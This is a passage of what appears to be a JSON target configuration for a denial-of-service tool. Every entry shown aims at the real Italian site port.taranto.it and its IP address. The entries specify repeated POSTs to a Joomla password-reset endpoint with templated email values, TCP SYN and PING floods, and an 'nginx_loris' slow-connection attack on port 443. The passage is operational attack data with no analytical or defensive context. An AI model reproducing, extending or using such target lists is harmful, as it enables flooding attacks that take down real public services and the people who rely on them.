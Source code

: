                 "type": "str",
                "value": "jform%5Bemail%5D=$_1%40gmail.com&60623da9976804b209800a20ee9461a9=1"
            },
            "headers": null
        },
        {
            "target_id": "6481d24bb9cf72aa31d0ea72",
            "request_id": "6481d24cb9cf72aa31d0ea7a",
            "host": "port.taranto.it",
            "ip": "94.188.237.164",
            "type": "http",
            "method": "POST",
            "port": 443,
            "use_ssl": true,
            "path": "/albopretorio/index.php?option=com_users&task=reset.request&lang=it&Itemid=101",
            "body": {
                "type": "str",
                "value": "jform%5Bemail%5D=$_1%40gmail.com&60623da9976804b209800a20ee9461a9=1"
            },
            "headers": null
        },
        {
            "target_id": "6481d24bb9cf72aa31d0ea72",
            "request_id": "6481d24cb9cf72aa31d0ea7b",
            "host": "port.taranto.it",
            "ip": "94.188.237.164",
            "type": "tcp",
            "method": "syn",
            "port": 443,
            "use_ssl": true,
            "path": "",
            "body": {
                "type": "str",
                "value": ""
            },
            "headers": null
        },
        {
            "target_id": "6481d24bb9cf72aa31d0ea72",
            "request_id": "6481d24cb9cf72aa31d0ea7c",
            "host": "port.taranto.it",
            "ip": "94.188.237.164",
            "type": "tcp",
            "method": "PING",
            "port": 443,
            "use_ssl": true,
            "path": "",
            "body": {
                "type": "str",
                "value": ""
            },
            "headers": null
        },
        {
            "target_id": "6481d24bb9cf72aa31d0ea72",
            "request_id": "6481d24cb9cf72aa31d0ea7d",
            "host": "port.taranto.it",
            "ip": "94.188.237.164",
            "type": "nginx_loris",
            "method": "GET",
            "port": 443,
            "use_ssl": true,
            "path": "",
            "body": {